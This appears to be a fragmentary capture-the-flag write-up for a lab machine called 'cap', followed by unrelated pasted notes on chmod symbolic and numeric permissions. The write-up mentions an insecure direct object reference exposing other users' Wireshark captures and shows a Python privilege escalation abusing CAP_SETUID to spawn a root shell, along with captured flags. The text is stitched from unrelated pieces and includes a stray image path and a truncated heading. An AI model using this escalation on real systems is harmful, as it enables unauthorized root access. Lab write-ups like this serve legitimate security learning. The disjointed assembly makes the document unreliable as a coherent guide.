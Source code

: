 Insecure direct object reference
The program lets you download wireshark data, using which you can get information.

we see we can look at various traffic data from wireshark and download other people data at /0
```
nathan@cap:~$ cat user.txt
7d00a3541457383761f76e004e44b382
nathan@cap:~$ 
```

```
>>> import os
>>> os.setuid(0)
>>> os.systme("/bin/bash")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: module 'os' has no attribute 'systme'
>>> os.system("/bin/bash")
```

```
root@cap:/root# cat root.txt
a0d06b5eeed1b0ce0fe06a5b05a0756a
```

CAP_SETUID allows the process to gain setuid privileges without the SUID bit set. This
effectively lets us switch to UID 0 i.e. root.

### discussion about the symbolic method

```
Symbolic method

The symbolic method uses the following syntax:

[tcarrigan@server ~]$ chmod WhoWhatWhich file | directory

Where:

    Who - represents identities: u,g,o,a (user, group, other, all)
    What - represents actions: +, -, = (add, remove, set exact)
    Which - represents access levels: r, w, x (read, write, execute)

An example of this is if I want to add the read and write permissions to a file named test.txt for user and group, I use the following command:

[tcarrigan@server ~]$ chmod ug+rw test.txt
```

```
umeric method

The numeric method is, in my experience, the best way to learn and practice permissions. It is based on the following syntax:

[tcarrigan@server ~]$ chmod ### file | directory

Here, from left to right, the character # represents an access level. There are three access levels—user, group, and others. To determine what each digit is, we use the following:

    Start at 0
    If the read permission should be set, add 4
    If the write permission should be set, add 2
    If the execute permission should be set, add 1

This is calculated on a per access level basis. Let's interpret this permissions example:

-rw-r-x---

The permissions are represented as 650. How did I arrive at those numbers?

    The user's permissions are: rw- or 4+2=6
    The group's permissions are: r-x or 4+1=5
    The others's permissions are: --- or 0

To put this into the command syntax, it looks like this:

[tcarrigan@server ~]$ chmod 650 test.txt
```